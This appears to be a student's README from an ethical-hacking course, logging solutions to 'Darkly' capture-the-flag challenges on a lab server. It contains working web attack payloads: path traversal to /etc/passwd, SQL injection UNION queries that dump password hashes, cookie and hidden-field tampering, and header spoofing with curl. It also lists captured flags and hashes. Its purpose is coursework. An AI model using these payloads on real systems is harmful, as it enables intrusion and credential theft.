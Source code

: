 # TTM4536-Etisk-hacking

Repo for all code som blir brukt i faget, og spesielt i forhold til flag og Darkly


Flags:
1. Bruteforce
2. Passord-recovery
3. Albatros-flag? nsa?
4. Survey (trenger flag03)
5. Redirect (trenger flag04)
6. Paths
7. Hidden
8. Whatever
9. Cookies/oreo
10. Members
11. Image
12. Image2
13. Silly
14. nsa2



# Bruteforce/Flag01

Lagde et script som kjørte 2 for løkker. Begge løkkene gikkgjennom alle passordene i filen (xato.....) og i den inerste løkken skrev den ut passordene i et passord. Så alle passordene i filen ble satt sammen med alle passordene inkludert seg selv. Det endte totalt med 998001 passord grunnet at det var 999 passord i filen siden et av passordene var blankt som scriptet ikke tok med.

Etter det kjørte jeg det default scriptet med noen små justeringer og fikk ut passordet (chicken333333) for admin.


# Flag02 - Passord recovery
Editerte html coden:
Ved å legge inn eget e-post i value i stede for den som lå der orginalt
```
<form action="#" method="POST"> 
    <input type="hidden" name="mail" value="eirikgba@stud.ntnu.no" maxlength="15"> 
    <input type="submit" name="Submit" value="Submit"> 
</form>
```


# Flag03 - Albatros/NSA flag
``` 
curl -A "61c08546b939" -e "https://www.nsa.gov/" http://129.241.200.165:19680/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c
```

# Flag04 - Survey
```
http://129.241.200.165:19680/?page=survey
<form action="#" method="post">
					<input type="hidden" name="sujet" value="2">
					<select name="valeur" onchange="javascript:this.form.submit();">
						<option value="1">1</option>
						<option value="2">2</option>
						<option value="3">3</option>
						<option value="4">4</option>
						<option value="5">5</option>
						<option value="6">6</option>
						<option value="7">7</option>
						<option value="8">8</option>
						<option value="9">9</option>
						<option value="999999">10</option>
					</select>
				</form>

```
Change the value of one of the Grades

2^Grade mod p = FLAG03 mod 2^64,
Where
p = Next_Prime(2^54)

# Flag05
Redirect the webpage til en annnen side
```
http://129.241.200.165:19680/index.php?page=redirect&site=5650cb0
```

# Flag06
Endre page, ved å gå til root og så inn i directory etc og vidre inn i passwd.
Hentet opp deller av flagget når en går bakover i fil systemet og det siste ligger i etc/passwd
```
http://129.241.200.165:19680/index.php?page=../../../../../../../etc/passwd
```


# Flag07
Flag07: dbfa4f7c46dc570fcd4b71272cdd2f2c
First tok jeg ut alle README filene
``` 
wget -m -r -nd -A "*README*" http://129.241.200.165:19680//.hidden/ 
```
Så merge alle filene sammen til en fil og åpne den filen i notepad
```
cat * > merged-file
explorer.exe .			#åpner directory i file explorer windows
```

# Flag08

# Flag09 - cookie
satoshi 65558: 22c9b7866d7424dc4b90a03664f5136c966fb34c8edd751cfba6998fe2b5170f
```
inspect element

document.cookie

https://www.blockchain.com/btc/block/65558

endre cookie til 000000000a7dce5ac40e7a88fd61399bbe76da161c1d65cbc2ebf2bd364545ed
```

# Flag10
Flag10: cfd650ecf156952e7764710e18c0b4fcb2179e3c48ac922ee4bb1d3d2210e8 

https://onlinehextools.com/xor-hex-numbers 

```
1 union select null, concat(table_name) from information_schema.tables where table_schema=database()
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
1 AND 1=2 UNION SELECT user_id99, CONCAT(first_name64, last_namecc, birthdate, email60, town91, country3e, comment92, HashedPassword) FROM clients

1 AND 1=2 UNION SELECT HashedPassword, CONCAT(user_id99, first_name64, last_namecc, birthdate, email60, town91, country3e, comment92) FROM clients
1 AND 1=2 UNION SELECT HashedPassword FROM clients

0781eeb28b88a1b9d57388163ae891fe6755096c34f24884584eb4d5b0842934
072472842cce7d49595202c4ceb061b7337282864ac89fc83444593e0f71ad37
0755d3f6381ba4680d8588e7512cb0707f35e24477cd0156dfe45a34ef105d3e
079db43068890999ad85c21f7a56f7fe82508731e44bd6ad6d00fa4910bc39d2
074500f0050818df67488ee3e29503943dea2c86820b58c41593dc9952b23e9c
07c08821b0d263eabdde23e00c823472f526961fd560da47ebf034f8293525ad
0708aac80014e6cf173f1ba0e31ebe5217a75e655e6c59dc4e324241902e058e
07d888eac2e9817b4b5834f7871dd3e2355fc3f4e4fa6ce597c592f608e7dd34
07ec866e79bf675f90d3b97ab11fa871a7e6de7e9dfd703b9c81b97e1a974163
077b1d907c1af5cb9d2de0efad16c9e16d31155ccf4758fd653d33eb6e3b59c1
0736236dc3a811b092f43b806392e25b9ebfa65ab101b21b79b1860a589f0a85
0721b9be8480d9b9903755dba557221014ae31493fdb3ad51ff4afea93cb811e
0774d2aaffaf19f5d2b1cb1ba7fdd2a2b21677e3f82df719fcc05195afc8ff37
077c9d60af001f30ec5001412032a063708a6dfdccc633947c254ded30488669
073ea70c5623d9d8ee55221503e3aba85085612da5237c32e3771da39493f6e2
07dfa45244586cd55f085b554182f5a82a112b81ad4e9472a6d6b73cc825fffc
07c5c4b9dc9b1ad195a46d25e656fdc5d6fb174eafbb80d6fbe052ddb783d787
0716688c4b1209a93986268d70cfa9b6e09168e263720cb81f816e81313b1cbf
07ac6d98121346f110c7c072eada56d829e5895e56e93eca6887ed926f90c960
0718ec8dd16d5a9f10605f04a32b1a68d4bc4321b49ccec52174bb16c24980b9
07621d8201c3ae1c7e5b403dffee899ca9062e5dd9083f9ad9a2df34235fbce0
071cac57e5729a08e04e99560131f39d4d3349a21ccb7de204887b3cfe67ad76
07baba47112ed595f72c90bf6da9c3995024f7d14306633f542e7a895841686d
0716830d9e3a1e5267115ff7f341e68cd4a5563f8a4f212405bdd685c5cf7c9c
07b1faa60739edbe200c2909a4e61757fb63fedd38c7d897dc3f012e885cf720
079e1255e419023fb127df6d9eac15b434ee2451107ddd6176749e61c4b4867a
07f1f2d0aa7bee909f1f74afaa5a1356f385fab15a412cac58bbb7164445fb8b
07fbb71f80b6d56558fb02111c296a500702d02ba3621f6f34564e3f499617f3
076c5daac63cda2742f1ae1570ff56a0f970bbfd86ee484c2ad790ea82bf17f5
0717b2882987bd5ae8e4cd9bc70e4f2ae2890df4317f6f5ed3ce864e70f2a97f
076062b9678f68b21515965d0d4e85da34da4bad65faeb8fbaca8baae8308f57
07a87c0353fa07960b6c3ecb593381f7f29d5e1f0b4eea8da5228be123c2a772
0799878f5f6365c0b61b3683aefec65cff5bf3b373da9f30dd0728acace3147b
0707c88b56cb8c4a1411d4e61d50a60e0db86f5dbb98f0242d660eaf54a282cf
0779df153e311abd1648885a219360c41a8b37dd5544c6949c4629aaa13b5532
075aa3e076b30d9ff06a41db069b813ce25159d66b6352fde078c633a8d29f78
```

# Flag11

# Flag12

# Flag13
Congratulations Flag13 is 6bad301f529ea136b3427e9daf2e6b2e
```
http://129.241.200.165:19680/test.php
```

# Flag14

